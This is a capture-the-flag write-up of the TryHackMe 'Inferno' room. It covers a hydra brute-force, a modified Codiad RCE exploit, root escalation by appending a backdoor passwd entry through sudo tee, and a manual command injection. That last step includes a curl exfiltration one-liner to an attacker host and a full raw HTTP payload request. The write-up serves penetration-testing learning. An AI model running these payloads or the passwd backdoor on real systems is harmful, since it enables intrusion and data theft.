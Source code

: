 # Inferno

https://tryhackme.com/room/inferno

"Real Life machine vs CTF. The machine is designed to be real-life and is perfect for newbies starting out in penetration testing" <- *not too sure about this.*

Enum for this machine was frustrating, as there were dozens of ports open. In fact, I usually use `nmap -sS -sV -vv` for recon but it took over an hour here to scan the whole box. Much better to use rustscan, which on the tryhackme machine can be run with docker as so:

  `docker run -it --rm --name rustscan rustscan/rustscan:latest -a 10.10.36.88 -- -sV`
  
In any event, only the two standard ports were actually open, 22 and 80. On 80 was a simple website with a quote from dante's inferno, and with a bit of enum via `gobuster`, a sub directory `/inferno` that was protected by basic auth.

No further enumeration returned anything else, not even a username - typically I don't like to randomly brute force username's AND passwords, but that was the next step here. Long story short, going with a short list of usernames or just random guessing might get you to running `hydra` like:

  `hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 10.10.105.168 -m /inferno http-get`
  
Which eventually revealed the password for admin.

On `/inferno` was an installation of a web ide called 'Codiad'. It showed a file directory under inferno, the tool itself. However, no paths were writable: even though Codiad supports creating or uploading files, trying to do so would fail.

The tool itself is out of support, and there are some CVEs against it unresolved. A quick DDG found https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit, but it wouldn't work as is - the tool was not setup to support basic auth.

In order to get it functioning, I modded the `exploit.py` file so whenever it used session.get or session.post, it would specify basic auth headers. E.g.:

  ```python
  response = session.post(url, data=data, verify=False)
  ```
  
  Became
  
  ```python
  headers = {
    "Authorization": "Basic etcetc"
  }
  response = session.post(url, data=data, headers=headers, verify=False)
  ```
 
Once I got a shell, I noted that it would periodically close, probably due to a cronjob somewhere. It looked like every minute. I was able to work with this however.

> **NOTE**: I go into detail on how this exploit works and alternatives at the end.

In the home directory was dante's folder, with the local.txt file being unreadable. I ran a `ls -laR` which found, under `/Downloads`, a `.download.dat`. In very CTF fashion (not real life pentest at all) this contained hexadecimal characters which I ran through cyberchef to reveal `dante`'s password.

At this point I dropped the exploit shell and just ssh'd in, getting the first flag.

Getting to root was easy: `sudo -l` revealed the user could run `/usr/bin/tee` as root without a password (even though I had the password). Tee sends its input to two outputs, and can both write and append. Being able to use it as root means I could use it to append to the `passwd` file, and I used a handy entry I keep around for just such an occasion which i put into a file called pass: `cat pass | sudo /usr/bin/tee -a /etc/passwd` with pass containing: `user3:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root:/bin/bash` (which has password `pass123`).

Once done, I just `su user3` with `pass123` to escalate to root. The final proof.txt was in /root. Easy.

## The codiad exploit.

If you're not a fan of scripts from random github repos, or want to exploit this yourself, heres how. Its actually not too hard, based on a blatant RCE, so you could get that `.download.dat` purely with something like burp, if you wished.

The vulnerable code is in the filemanager class, which you can browse via the codiad interface, specifically the files /components/filemanager/controller.php and /components/filemanager/class.filemanager.php. The first takes the action as a query parameter then uses the appropriate method from the second, in this case the search function.

The vulnerability is on line 243 of the filemanager class, within the search function:

  `$output = shell_exec('find -L ' . $this->path . ' -iregex  ".*' . $this->search_file_type  . '" -type f | xargs grep -i -I -n -R -H "' . $input . '"');`

Here, search filetype is one of the body parameters, along with the search term, and you can see its being concatted to a os command without escaping. So its basic command injection.

To exploit this is a bit tricky, since its blind: you can't get the response back through the call, at least as far as I could tell. Instead, you can use a trick: fire up a webserver on an accessible machine, e.g, via `python3 -m http.server 4444`.

Then, you can exfiltrate data, by passing a command like `cat /home/dante/Downloads/.download.dat | base64 -w0 | xargs -I T curl 10.10.126.249:4444/?x=T`, which will read that download.dat file, base 64 encode it, then pass it to a curl request to your webserver (where you will see the request arrive with a big payload in the querystring).

So, back to the vulnerable component: to call this, and do the above, here is the raw http request. Its basically a post to that controller endpoint, with the basic auth header, and the (unencoded!) body:

```http
POST /inferno/components/filemanager/controller.php?type=1&action=search&path=/var/www/html/inferno HTTP/1.1
Host: 10.10.71.248
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Authorization: Basic YWRtaW46ZGFudGUx
Cookie: 99300f2078c94e495d72b82a732ea6db=gu0fv4ear8rsifistrnrcnes1o
Content-Length: 140

search_string=Hacker&search_file_type="%0Acat /home/dante/Downloads/.download.dat | base64 -w0 | xargs -I T curl 10.10.126.249:4444/?x=T %23
```

Note you will need to log into codiad to get that cookie.
